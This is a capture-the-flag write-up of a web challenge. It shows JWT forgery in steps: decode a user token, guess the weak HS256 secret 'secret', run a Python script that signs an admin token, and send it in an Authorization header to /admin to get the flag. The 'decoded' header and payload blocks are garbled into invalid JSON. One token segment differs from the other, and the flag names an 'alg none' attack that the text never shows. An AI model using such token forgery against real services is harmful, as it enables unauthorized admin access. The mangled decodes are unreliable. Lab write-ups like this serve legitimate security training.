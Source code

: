 # BCC CTF 2025 Write-up

## Web 

### Restricted Access: Last Race

login.html

![image](https://github.com/user-attachments/assets/c10590dc-45ef-4912-96e3-2fb6904f8d74)

Trying to login and see our JWT token in the request 

Where `Authorization:` 

![image](https://github.com/user-attachments/assets/48d318d1-a8a4-45ec-99c9-b05eb788dbde)

Decoding JWT

Token:

    eyJhbGciOiJIUUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJyb2xlIjoidXNlciIsImlhdCI6MTc0NTY1NjE0NH0.qaTho4a9cYzIWNPHSH2y7MKnw3Jwx9gFhv_rYIUmM-g

Header (first segment):

    {
      { “alg”: “HS256”,
      “typ": ”JWT”
    }

Payload (second segment):

    {
      “username": ‘test’,
      { “role”: { “user”,
      { “iat”: 1745656144
    }

We need to change role to admin `role: admin` and user to admin `user: admin`

This requires a signature with a secret. In your case the algorithm is HS256, so the signature is HMAC SHA-256 from base64url(header) + “.” + base64url(payload) with a secret.

Python script for JWT generartion

    import jwt
    
    secret = 'secret'
    
    payload = {
        "username": "admin",
        "role": "admin",
        "iat": 1745652446
    }
    
    token = jwt.encode(payload, secret, algorithm='HS256')
    print(token)

Our new token with admin role:

    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzQ1NjUyNDQ2fQ.oEeX973VqPxMXi8Kd2gVyq6WVzb_UsuAPZqaaq5TZMw

Change token in the request

    ...
    Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzQ1NjUyNDQ2fQ.oEeX973VqPxMXi8Kd2gVyq6WVzb_UsuAPZqaaq5TZMw
    ...

![image](https://github.com/user-attachments/assets/a3a6f563-e74a-4faf-bef5-cf327bfdfb47)

Request to `/admin`

![image](https://github.com/user-attachments/assets/1891248e-8e51-4e0f-ba83-1eb77096c879)

FLAG:

    BCC{4lg_n0n3_jw1_3xpl0i1}
